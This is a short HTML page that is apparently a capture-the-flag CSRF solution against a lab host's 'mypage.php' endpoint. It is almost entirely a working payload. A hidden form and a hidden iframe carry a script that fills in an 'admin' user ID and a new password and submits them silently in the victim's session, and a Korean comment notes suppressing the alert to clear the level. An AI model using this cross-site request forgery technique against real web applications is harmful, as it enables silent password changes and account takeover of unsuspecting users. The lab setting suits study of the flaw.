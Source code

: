 Hello, World!

<iframe name="if" style="display:none"></iframe>

<form id="trg" name="fo" method="POST" target="if" action="http://ctf.segfaulthub.com:7575/csrf_2/mypage.php?user=2">
    <input id="id_in" name="id" type="hidden" value="2">
    <input id="info_in" name="info" type="hidden" value="">
    <input id="pw_in" name="pw" type="hidden" value="3">
</form>

<iframe src="http://ctf.segfaulthub.com:7575/csrf_2/mypage.php?user=2" style="display:none">
</iframe>

<script>
    let f = document.querySelector('iframe').contentWindow;
    f.addEventListener('load', () => {
        // window.alert = function() {}; // alert만 안 뜨게 하면 clear
        let input_arr = f.document.querySelectorAll('input');
        let id = input_arr[0].value = "2_admin";
        let pw = input_arr[2].value = "2";
        let submit = f.document.querySelector('form').submit();
    });
</script>
